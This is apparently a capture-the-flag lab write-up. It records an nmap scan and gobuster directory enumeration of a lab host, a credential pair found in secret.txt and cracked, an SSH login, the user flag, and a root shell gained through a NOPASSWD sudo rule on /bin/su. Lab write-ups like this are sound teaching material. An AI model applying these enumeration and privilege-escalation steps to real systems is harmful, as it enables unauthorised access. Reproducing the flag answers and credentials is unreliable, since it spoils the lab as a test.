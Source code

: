 # Final Exam

## Notes
```
Nmap scan report for 10.10.52.103
Host is up (0.23s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

gobuster dir -u http://10.10.52.103/ -w ../wordlist/directory-list-2.3-medium.txt
===============================================================
/secret               (Status: 301) [Size: 313] [--> http://10.10.52.103/secret/]
```

gobuster dir -u http://10.10.52.103/ -w ../wordlist/directory-list-2.3-medium.txt -x .txt
secret.txt

nyan:046385855FC9580393853D8E81F240B66FE9A7B8
nyan:nyan


## Questions
1. What is the user.txt
```
ssh using nyan:nyan
supernootnoot
```

2. What is the root.txt
```
>sudo -l
Matching Defaults entries for nyan on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nyan may run the following commands on ubuntu:
    (root) NOPASSWD: /bin/su

>sudo /bin/su
will give you root shell
>cat /root/root.txt

congratulations!!!!
```